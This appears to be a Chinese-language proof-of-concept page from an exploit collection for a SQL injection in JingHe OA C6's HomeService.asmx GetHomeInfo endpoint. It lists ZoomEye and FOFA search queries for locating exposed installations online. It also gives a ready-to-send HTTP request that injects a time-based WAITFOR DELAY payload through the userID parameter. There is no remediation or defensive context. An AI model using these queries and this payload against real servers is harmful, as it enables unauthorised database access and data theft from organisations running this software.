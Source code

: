 ## 金和OA_HomeService.asmxSQL注入

## 语法
```
zoomeye：
app:"JingHe OA C6"

fofa：
app="金和网络-金和OA"
```

## poc
```
GET /c6/jhsoft.mobileapp/AndroidSevices/HomeService.asmx/GetHomeInfo?userID=1'%3b+WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
```
![image](../../images/e4f93bf5-416a-4ff2-87b6-9a3fb26d048e.png)

![image](../../images/ee9c3d29-096d-48b8-a037-c5371867c033.png)
